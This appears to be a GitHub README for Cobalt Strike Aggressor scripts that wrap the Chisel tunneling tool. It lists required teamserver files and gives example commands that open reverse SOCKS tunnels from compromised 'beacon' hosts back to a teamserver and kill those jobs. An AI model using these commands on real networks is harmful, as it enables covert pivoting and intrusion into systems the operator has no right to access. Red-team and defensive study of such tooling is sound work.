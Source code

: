 # Cobalt_Strike_scripts
Cobalt Strike Aggressor scripts

## Chisel script
The *chisel.cna* needs these files and these files must be located on the teamserver:
- logs/
  - chisel_client_job_pids.log
  - chisel_tms_job_pids.log
- modules/
  - chisel_linux
  - chisel_win.exe
  - chisel64
  - chisel64.exe
  - chisel86
  - chisel86.exe
- tools/
  - tmskill64.bat
  - tmskill64.sh
  - tmskill86.bat
  - tmskill86.sh

You must have write permissions to the log files.

You can download last versions of chisel from https://github.com/jpillora/chisel

Change *$chisel_user*, *$chisel_pass* in the *chisel.cna*.

### Modules
🔺 **chisel**

The 'client' functionality is used on a beacon. Example:
```
chisel client <serv_IP>:<serv_port> R:<socks_IP>:<socks_port>:socks
```

🔺 **chisel-jobs**

List active chisel jobs on the teamserver and beacon. Just run:
```
chisel-jobs
```

🔺 **chisel-kill**

Kill chisel jobs on a beacon. Use 'ALL' to kill all jobs or PID to kill only one job with typed PID. Example:
```
chisel-kill ALL
chisel-kill 3453
```

🔺 **chisel-tms**

Run Chisel on your teamserver. Example:
```
chisel-tms server --auth user:pass -p <serv_port> --socks5 --reverse
```

🔺 **chisel-tms-kill**

Kill all chisel jobs on the teamserver. Just run:
```
chisel-tms-kill
```

## Screenshots
![Chisel](/screens/ch_client.png)
![Chisel tms](/screens/ch_tms.png)
